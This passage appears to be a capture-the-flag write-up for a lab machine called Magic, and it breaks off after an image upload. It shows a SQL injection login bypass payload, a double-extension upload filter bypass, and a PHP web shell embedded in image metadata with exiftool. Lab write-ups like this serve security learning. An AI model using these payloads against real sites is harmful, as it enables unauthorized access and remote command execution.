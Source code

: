 The scan shows that port 22 on ssh and port 80 on http are open:


## Port 80

Navigating to the website gives us a portfolio of images.

The website seems to be a an image hosting and sharing platform where you can upoload your pictures and then they will be displayed.

![home page](https://i.ibb.co/fDgw3CN/magic-home-screen.png)

We see the `text` login in the bottom left of the screen. We click on this and it forwards us to a login screen.

## Sql login
![login-screen](https://i.ibb.co/VgwwQBj/magic-login-page.png)

We start by testing simple Sqlinjection payloads such as `' OR 1=1` and experimenting with `"` and `;` to try and tweak it to give us access. We finally come to our final command that works. It is:

```
admin' or 1=1; --';
```

![sqllogin](https://i.ibb.co/1LGvzN5/mage-sqli-login-page.png)

After this we are exposed to the image upload feature that we assumed we would get at some point.
We test uploading sample images to see what extensions we can get away with and in fact if we name a file `file.php.jpeg` we can get away with executing the php part of it as the website only seems to make sure that the final file extension is either png, jpg or jpeg.

![uploadpage](https://i.ibb.co/mDpynkt/upload-image.png)

## exiftool

We will now use `exiftool` to embed some php code into our image.

We will use this code: `<?php echo "<pre>"; system($_GET['cmd']); ?>`. This allows us to once we upload and head to our file in the url e.g http://website.com/image.php.jpeg insert our own command and allow us to get code execution with it.

```bash
┌──(kali㉿kali)-[~/htb/boxes/magic]
└─$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.jpeg
    1 image files updated
```

## Uploading image

We then upload the image to the site.

![imageupload](https://i.ibb.co/jWP8JM3/image-uploaded-success.png) 

